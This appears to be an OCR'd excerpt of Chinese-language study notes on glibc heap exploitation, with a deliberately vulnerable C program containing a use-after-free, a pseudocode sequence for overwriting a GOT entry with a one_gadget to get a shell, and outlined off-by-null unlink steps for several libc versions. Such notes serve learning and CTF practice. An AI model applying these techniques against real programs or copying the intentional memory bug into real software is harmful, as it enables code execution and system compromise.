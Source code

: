     int main() {
        struct string* s = malloc(sizeof(string));
        puts("Length:");
        scanf("%u", &s->length);
        s->data = malloc(s->length + 1);
        memset(s->data, 0, s->length + 1);
        puts("Data:");
        read(0, s->data, s->length);
    
        free(s->data);
        free(s);
    
        char *s2 = malloc(16);
        memset(s2, 0, 16);
        puts("More data:");
        read(0, s2, 15);
    
        // Now using s again, a UAF
    
        puts(s->data);
    
        return 0;
    }
利用序列
	
	A=malloc(0x20)
	B=malloc(0x20)
	A[0]=B
	free(A)
	C=malloc(0X20)
	C[0]=got_addr 此时C==A, B指针位置等于got表地址
	edit(A[0], content)  use after free A,content换位onegaget即可getshell
### 0x10 off-by-null unlink利用（libc2.23 libc2.27 libc2.29）

https://www.anquanke.com/post/id/208407
libc2.27利用：

    1. 现在有 Chunk_0、Chunk_1、Chunk_2、Chunk_3。
    2. 释放 Chunk_0 ，此时将会在 Chunk_1 的 prev_size 域留下 Chunk_0 的大小
    3. 在 Chunk_1 处触发Off-by-null，篡改 Chunk_2 的 prev_size 域以及 prev_inuse位
    4. Glibc 通过 Chunk_2 的 prev_size 域找到空闲的 Chunk_0 
    5. 将 Chunk_0 进行 Unlink 操作，通过  Chunk_0 的 size 域找到 nextchunk 就是 Chunk_1 ，检查 Chunk_0 的 size 与 Chunk_1 的 prev_size 是否相等。
    6. 由于第二步中已经在 Chunk_1 的 prev_size 域留下了 Chunk_0 的大小，因此，检查通过。
    A=malloc(0x108)
    B=malloc(0x108)
    C=malloc(0x108)
    D=malloc(0x108)
    free(A)
    B+0x109(C.size last byte)=0x00  #减小C堆块SIZE，从0x110->0x100
    B+0x100(C.presize )=0x220 
    free(C)
    E=malloc(0x330) #malloc(A+B+C), E的数据段包含了B，可用进一步泄露libc、堆地址？修改chunk fd或者bk
